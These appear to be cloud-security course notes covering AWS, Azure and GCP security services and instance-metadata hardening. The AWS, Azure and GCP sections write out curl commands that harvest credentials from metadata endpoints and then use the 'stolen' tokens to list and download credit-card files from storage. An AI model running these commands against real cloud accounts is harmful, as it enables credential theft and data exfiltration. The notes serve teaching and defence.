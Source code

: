 | AWS Security Services            | Azure Security Services         | GCP Security Services            |
|-----------------------------------|---------------------------------|----------------------------------|
| 1. AWS Identity and Access Management (IAM) | 1. Azure Active Directory (AAD) | 1. Cloud Identity and Access Management (IAM) |
| 2. AWS Organizations             | 2. Azure Policy                | 2. GCP Organization Policy       |
| 3. AWS Resource Access Manager (RAM) | 3. Azure Resource Locks       | 3. GCP Resource Manager          |
| 4. AWS Security Token Service (STS) | 4. Azure Managed Identities   | 4. GCP Secret Manager            |
| 5. AWS Key Management Service (KMS) | 5. Azure Key Vault            | 5. Google Cloud KMS              |
| 6. AWS Secrets Manager          | 6. Azure Private Link          | 6. GCP VPC Service Controls      |
| 7. AWS Single Sign-On (SSO)     | 7. Azure AD B2C               | 7. GCP Identity Platform          |
| 8. AWS Cognito                  | 8. Azure AD Domain Services    | 8. GCP Identity-Aware Proxy (IAP) |
| 9. AWS GuardDuty                | 9. Azure Sentinel              | 9. GCP Event Threat Detection    |
| 10. AWS Inspector               | 10. Azure Security Center      | 10. GCP Security Command Center   |
| 11. AWS Shield                  | 11. Azure DDoS Protection      | 11. GCP Cloud Armor              |
| 12. AWS Web Application Firewall (WAF) | 12. Azure Web Application Firewall | 12. GCP Cloud CDN Security Policies |
| 13. AWS Firewall Manager        | 13. Azure Firewall Manager     | 13. GCP Firewall Rules Logging    |
| 14. AWS Certificate Manager (ACM) | 14. Azure App Service Certificates | 14. GCP Managed SSL Certificates |
| 15. AWS CloudTrail              | 15. Azure Monitor              | 15. GCP Cloud Audit Logs         |
| 16. AWS Config                  | 16. Azure Log Analytics        | 16. GCP Security Scanner          |
| 17. AWS CloudWatch              | 17. Azure Network Watcher      | 17. GCP Network Intelligence Center |
| 18. AWS Trusted Advisor         | 18. Azure Advisor              | 18. GCP Recommender              |


# Guides, Guidelines, 
CSA - Cloud control matrix - https://cloudsecurityalliance.org/research/cloud-controls-matrix/
CIS benchmark guide for individual clouds
Cloud center of excellence (CCoE)
Mitre ATT&CK Cloud matrix - https://attack.mitre.org/matrices/enterprise/cloud/

## Notes
- VM Service accounts/Instance Metadata Service (IMDS) - EC2 - Instance profile, Azure - Managed identity, GCP - Service account
- Turn off Metadata service if the application does not use it. Setting http-endpoint to disabled will turn off access to the IMDS’s HTTP endpoint. Access to Azure’s IMDS can be restricted using a network security rule. For GCP, you must explicitly turn off IMDS v0.1 and v1beta1 using the disable-legacy-endpoints directive. AWS enhances security by setting a metadata token's IP packet TTL to 1, ensuring it's not routed beyond the requesting EC2 instance.
- Limit the IP hops token responses to 1 (AWS only) - 

##### AWS
- Get security group ```curl –s "http://169.254.169.254/latest/meta-data/securitygroups/"```
- List of security creds saved in AWS - ```http://169.254.169.254/latest/meta-data/iam/security-credentials/```
- Get AUTH token ```TOKEN=$(curl -s -X PUT -H "X-aws-ec2-metadata-token-ttl-seconds:21600" http://169.254.169.254/latest/api/token)```
- Use AUTH token in the request ```curl -H "X-aws-ec2-metadata-token: $TOKEN"http://169.254.169.254/latest/meta-data/iam/security-credentials/sec510-ec2```
- AWS AUTH using stlen creds
```
$ export AWS_ACCESS_KEY_ID="ASIA54BL6PJR3MV6PUNZ"
$ export AWS_SECRET_ACCESS_KEY="S0M6vF4UmMlfmV5B/bM2lTzocsSWMMHRI"
$ export AWS_SESSION_TOKEN="IQoJb3JpZjEJ...3QtMSJEQCIykQYitLv8Vg=="

$ aws s3api list-buckets
```
- Turning off the AWS IMDSv1 endpoint, requiring tokens and setting the hop limit:
```
resource "aws_instance" "sec510" {
  ami = data.aws_ami.ubuntu.id
  instance_type = "t2.micro"
  metadata_options {
    http_endpoint = "enabled"
    http_tokens = "required"
    http_put_response_hop_limit = 1
  }
}
```
##### Azure 
- JWT for accessing the storage service ```curl "http://169.254.169.254/metadata/identity/oauth2/token?apiversion=2018-02-01&resource=https://storage.azure.com/" -H "Metadata: true"```
- Azure authentication using stolen credentials
```
export BEARER_TOKEN=eyJ0eXAiOiJKV1iJSUzI1.eyJhdWQiOiJodHRwczovL6nF.9GBdAVCbC...d4EjV2m_ADfn7g9BoDsK9ID-18fvQKuQ
curl -s -H "Authorization: Bearer $BEARER_TOKEN" -H "x-ms-version:2017-11-09" "https://sec510.blob.core.windows.net/credit-cards?restype=container&comp=list"
curl -s -H "Authorization: Bearer $BEARER_TOKEN" -H "x-ms-version:2017-11-09" "https://sec510.blob.core.windows.net/creditcards/alice.txt" --output /tmp/alice.txt
```

##### GCP
- Get network security group ```curl -s -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/machine-type```
- Get access token (depricated but might work) ```curl "http://metadata.google.internal/0.1/meta-data/serviceaccounts/default/acquire"```
- Get access token (beta, might not work) ```curl "http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token"```
- Get service token ```curl -s -H "Metadata-Flavor: Google" "http://metadata.google.internal/computeMetadata/v1/instance/serviceaccounts/default/token```
- Get the scope of service token - ```http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes```
- GCP AUTH with stolen creds
```
$ export BEARER_TOKEN=ya29.c.Km7HBzaPr3J...WPBCgyiwPr5JESV16SHoh2w
# List all storage buckets in the GCP project
$ curl -s -H "Authorization: Bearer $BEARER _TOKEN" "https://storage.googleapis.com/storage/v1/b?project=sec510"
# Download an object from the bucket.
$ curl -s -H "Authorization: Bearer $BEARER_TOKEN" "https://www.googleapis.com/storage/v1/b/creditcards/o/alice.txt?alt=media" --output ~/tmp/alice.txt
```
